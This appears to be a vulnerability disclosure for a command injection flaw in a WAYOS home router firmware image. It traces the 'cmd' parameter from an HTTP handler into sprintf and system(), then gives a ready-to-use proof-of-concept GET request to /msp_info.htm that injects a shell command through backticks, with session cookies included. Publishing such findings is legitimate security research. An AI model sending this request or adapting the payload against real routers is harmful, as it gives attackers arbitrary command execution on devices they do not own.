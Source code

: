 Firmware version:

FBM_292W-21.03.10V.trx

Download address:

https://www.wayos.com/product/jiatingzuwang/jiayongwuxian/jiatingwifituijian/2189.html

Command injection vulnerability:

Command injection exists in the sub_4901E0 function. On line 23, httpd_get_parm sets the flag value of parameter a1 to parm；


![Pasted image 20240806145004](https://github.com/user-attachments/assets/3bc5aaec-00a2-45f0-ae67-cea038fb8213)

In line 45, the value off_755C3C is "cmd"; 
When the parameter is passed in, just carry "cmd" and it will be executed to line 68；
Then the sprintf function is concatenated to v21, and the value of v21 is executed as the parameter of system, resulting in command injection；

![Pasted image 20240806145155](https://github.com/user-attachments/assets/b5841f87-f4ff-41ca-82c9-392bc42f26db)

Here is the FirmAE simulated firmware command injection process

![Pasted image 20240806150053 png](https://github.com/user-attachments/assets/aefd1f13-43c4-4cc7-ab95-82b5e60376bb)

![Pasted image 20240806150808](https://github.com/user-attachments/assets/e64abede-a24d-409c-a8b1-6ff78354f72f)

poc：

```
GET /msp_info.htm?flag=cmd&cmd=`ps%3Ea.txt` HTTP/1.1

Host: 192.168.0.1

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate, br

Accept-Language: zh,en-US;q=0.9,en;q=0.8

Cookie: wys_userid=admin,wys_passwd=861A198CDBD425F0B9D91C42FAB93A86; userid=root; gw_userid=root,gw_passwd=877EDB10AA120D0CE79068CAAE4F6C3A,gw_token=1j2BdpVQZ7o07qq,gw_code=GjyJNVuv302420X

Connection: close


```

